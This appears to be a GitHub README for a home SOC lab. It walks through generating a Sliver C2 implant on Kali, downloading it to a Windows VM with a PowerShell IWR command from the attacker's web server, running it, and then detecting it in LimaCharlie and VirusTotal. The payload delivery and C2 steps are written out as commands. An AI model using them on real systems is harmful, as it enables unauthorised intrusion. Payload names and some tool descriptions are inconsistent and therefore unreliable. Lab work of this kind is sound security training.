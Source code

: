 # SOC-Lab
This is a SOC focused home lab that will use a variety of tools including Sliver to simulate an attack on a vulnerable machine. During this lab the vulberable machine is the Windows VM, attacking machine will be a Kali Linux, and the monitoring tool will be LimaWire. 

# As a disclaimer, the original idea for this lab comes from Eric Capuano. Setting up the lab environment has been purposefully left out and I highly suggest anyone interested in replicating this lab visit his Substack page(linked below)!

[Eric's Substack](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

# SOC-Lab

## Objective

The SOC Lab is designed to showcase my skills in a simulated real world environment with an attacker(Linux) and Defender(Windows). The SOC home lab is designed to simulate real-world cybersecurity environments, allowing me to practice identifying, investigating, and mitigating cyber threats in a controlled setting. Its primary objective is to provide hands-on experience with security tools, techniques, and processes, helping me to develop practical skills in network monitoring, threat detection, and response strategies. Additionally, it aims to foster a deeper understanding of the cybersecurity landscape, including the tactics, techniques, and procedures (TTPs) used by attackers. By recreating the challenges faced by professional SOCs, this home lab serves as a valuable educational platform for an aspiring cybersecurity professional, such as myself, enhancing my readiness for careers in the rapidly evolving field of information security.
### Skills Learned

- Learning to identify and analyze potential security threats in network traffic and logs, using tools like SIEM (Security Information and Event Management) systems.
- Developing the skills necessary to effectively respond to and manage security incidents, including containment strategies, eradication of threats, and recovery processes.
- Gaining experience in monitoring network traffic for suspicious activity and conducting forensic analysis to understand the nature and impact of security breaches.
- Learning about the development and implementation of security policies and best practices to protect organizational assets and data.
- Acquiring the ability to use threat intelligence feeds and sources to anticipate and defend against potential cyber attacks, understanding the tactics, techniques, and procedures used by cybercriminals

### Tools Used


- VMWare to host the Virtual Environments. 
- LimaCharlie for network monitoring and management. 
- Linux VM to serve as attacking machine.
- Windows VM to serve as Victim machine.
- Sliver, an open source red team tool, used to launch payloads and maintainn persistence on victims machine.

  ### Steps: Part 1

  1. Drop into a root shell and change directory to our Sliver install
       - sudo su
       - cd /opt/sliver
  2. Launch sliver server
       - sliver-server

    ![4 Sliver](https://github.com/Lantern76/SOC-Lab/assets/119342094/6a6d3fb1-6f62-448a-97e2-3638c10332a8)

  3. Generate our first C2 session payload (within the Sliver shell) using the attacking machines IP address.
       - generate --http  --save /opt/sliver

![2 generate payload](https://github.com/Lantern76/SOC-Lab/assets/119342094/e864ec91-db64-4aa6-a74f-c910cf9d44e1)

  4. Confirm the new implant configuration
       - implants

  ![3](https://github.com/Lantern76/SOC-Lab/assets/119342094/b7064aaf-9dca-4a98-be00-011422b3f89e)

  5. Now we have a C2 payload we can drop onto our Windows VM. We’ll do that next. Go ahead and exit Sliver for now
       - exit
  6. To easily download the C2 payload from the Linux VM to the Windows VM, let’s use a little python trick that spins up a temporary web server
       - cd /opt/sliver
       - python3 -m http.server 80
  7. Switch to the Windows VM and launch an Administrative PowerShell console
  8. Now I run the following command to download my C2 payload from the Linux VM to the Windows VM, using my own Linux VM IP and the name of the payload I generated in Sliver, RAPID_PLENTY.exe, a few steps prior
       - IWR -Uri http://[Linux_VM_IP]/REGULAR_PLENTY.exe -Outfile C:\Users\User\Downloads\REGULAR_PLENTY.exe
  9. Now that the payload is on the Windows VM, we must switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback
       - First I need to terminate the python web server by pressing Ctrl + c
       - Next is to relaunch Sliver
           - sliver-server
        - Begin the Sliver HTTP listener
            -http
  10. Return to the Windows VM and launch a powershell session as an administrator. Afterwords launch the payload
        - C:\Users\User\Downloads\RAPID_PLENTY.exe
  11. Within a few moments, you should see my session check in on the Sliver server

  ![6 sliver sessions](https://github.com/Lantern76/SOC-Lab/assets/119342094/4383b004-3e19-43af-93b2-1d01dce94c0b)

  12. I then need to verify my session in Sliver, taking note of the Session ID
        - sessions

  ![5 sliver server](https://github.com/Lantern76/SOC-Lab/assets/119342094/0ae65380-7053-44f1-b4d8-c4bf2a50fd3a)

  13. To interact with my new C2 session, I type the following command into the Sliver shell, swapping [session_id] with one shown in image

  ![7 sliver sessions](https://github.com/Lantern76/SOC-Lab/assets/119342094/b0ef3872-d516-4add-833b-2be37bf1f975)

  14. I am now interacting directly with the C2 session on my Windows VM. Let’s run a few basic commands to get our bearing on the victim host
        - Get basic info about the session
            - info
        - Find out what user my implant is running as, and learn it’s privileges
            - whoami
            - getprivs
        - As a side note, since the implant was run with admin rights, you’ll notice we have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” 

![1](https://github.com/Lantern76/SOC-Lab/assets/119342094/8024c4fd-f411-4b01-9c68-112830e5e7d9)

  15. Identify our implant’s working directory
        - netstat
  16. Identify the running processes on the remote system
        - ps -T
        - Fun tip, Sliver will higlight its own processin green and any defensive tools in red
  17. Let’s hop into the LimaCharlie web UI and check out some basic features
        - Click “Sensors” on left menu
        - Click your active Windows sensor

![8 LimaCharlie sesnsors](https://github.com/Lantern76/SOC-Lab/assets/119342094/8b526208-145a-4e70-9ee4-05f4a84f73c7)

  18. On the new left-side menu for this sensor, click “Processes”

![9 LimaCharlie Processes](https://github.com/Lantern76/SOC-Lab/assets/119342094/15ca7ee1-39c1-42b1-94a3-ec9ef085f81c)

  19. Now I need to click the “Network” tab on the left-side menu

![10 LimaCharlie Network](https://github.com/Lantern76/SOC-Lab/assets/119342094/258c12f9-b985-4406-a626-acdc2799e72c)

  20. Next I click on the “File System” tab on the left-side menu

![11 LimaCharlie file system](https://github.com/Lantern76/SOC-Lab/assets/119342094/4c04d6ad-1664-4c01-b43e-bdaff3fbcad1)

  21. Finally, I inspect the hash of the suspicious executable by scanning it with VirusTotal

![12 Virus total ](https://github.com/Lantern76/SOC-Lab/assets/119342094/afe0a49c-c917-4039-ad15-ecf695603985)


### That conclodes part 1 of the home SOC lab. Part 2 will be uploaded soon and will countinue below :) 


































  
   
